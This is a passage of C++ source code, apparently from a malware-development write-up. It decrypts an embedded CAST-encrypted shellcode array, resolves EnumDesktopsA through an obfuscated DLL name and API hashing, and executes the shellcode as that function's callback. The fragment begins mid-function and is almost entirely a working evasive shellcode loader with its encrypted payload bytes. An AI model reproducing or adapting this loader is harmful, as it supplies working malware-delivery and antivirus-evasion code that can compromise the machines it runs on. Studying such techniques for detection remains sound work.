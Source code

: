 ```cpp
    exit(1);
  }

  // decrypt the entire shellcode into the allocated memory
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    uint32_t decrypted_block[2];
    memcpy(decrypted_block, shellcode + i * BLOCK_SIZE, BLOCK_SIZE);
    cast_decrypt(decrypted_block, subkeys);
    memcpy((char *)mem_block + i * BLOCK_SIZE, decrypted_block, BLOCK_SIZE);
  }

  d((char*)udll, sizeof(udll), secretKey, sizeof(secretKey));
  HMODULE mod = LoadLibrary((LPCSTR)udll);
  LPVOID addr = getAPIAddr(mod, 121801766);
//   printf("0x%p\n", addr);
  EnumDesktopsA_t myEnumDesktopsA = (EnumDesktopsA_t)addr;

  // execute the shellcode using EnumDesktopsA
  myEnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem_block, 
  (LPARAM)NULL); 
}

int main() {
  unsigned char padded[] = "\x92\x15\x7e\x1b\x46\x4d\xff\xff"
  "\x7d\x55\x52\x41\x61\xcc\x51\x41\x52\x73\x83\x33\x2f\x47"
  "\xd2\x65\x4d\x72\xd9\x32\xdd\x92\x8b\x52\x30\x50\x76\xc3"
  "\xe3\xb6\x3e\x48\x6f\x80\xe7\x74\xca\x8c\xb7\x4a\x89\xcf"
  "\xf1\x65\x42\x9b\xc0\xac\x5a\xe1\x3d\xc3\x26\x8d\x41\xc1"
  "\x46\xf4\xac\x53\x3c\x8f\xed\x52\x10\x26\x1e\x76\x05\x3b"
  "\x20\x3e\x00\x11\x02\xc3\x0f\x05\x3e\x8b\x13\x71\x86\xc0"
  "\x85\x91\x85\xc0\xc1\x50\x76\x8a\x32\xda\x3e\x8b\x3e\x91"
  "\x1e\x0d\xf6\x65\x20\x49\x8e\x91\x29\x62\xf9\x95\xc9\x3e"
  "\x8b\x52\xe3\xc5\x51\x22\xd6\x4d\x6b\x09\x09\xf0\x50\x32"
  "\x41\xc1\x55\x4b\xa1\x74\x68\x80\xe0\x75\xf1\x72\x45\x46"
  "\x75\xb8\x08\x45\x93\xd8\x30\x5d\x6f\x63\x44\x8b\xb9\x22"
  "\x77\x40\x76\xc8\x3e\x41\x3f\x54\x09\x22\x2d\x60\x40\x1c"
  "\xdb\x68\xd5\xb6\xb6\x1a\x04\x88\xbd\x8f\x88\x1f\x40\xa3"
  "\x58\x5e\x70\xc9\x03\x02\xde\x9d\x41\x5a\x19\x2f\x13\xc0"
  "\xee\xa8\xff\xe0\x7b\xc0\xd2\x48\xf9\xce\x8b\x12\xd9\x7d"
  "\xb6\x38\x65\x8d\x49\xc7\x01\x27\x48\x8d\x11\x1d\x48\x8d"
  "\x66\xfb\x4c\x8d\x16\x1b\x4c\x8d\xf3\xa0\x30\xc9\x7a\x8a"
  "\x31\xc9\xf9\x77\x45\x55\x3e\x46\xff\xd5\x56\x36\xa7\x8c"
  "\x88\x2d\xba\xa6\x7c\xde\x19\x3b\x80\x97\x83\xc4\x18\x6a"
  "\xfd\x9c\x1e\xc3\xfb\xe0\x68\xd9\xcb\x2d\x36\xff\x6f\x6a"
  "\x41\x7e\x94\xc4\xa7\xf9\xd5\x4d\x35\x1b\x18\x5a\x71\x2c"
  "\x6f\x77\xed\x5f\x63\x63\x0d\x41\x5e\x3d\x00\x00";

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  cast_decrypt_and_execute_shellcode(padded, sizeof(padded), subkeys);

  return 0;
}
```
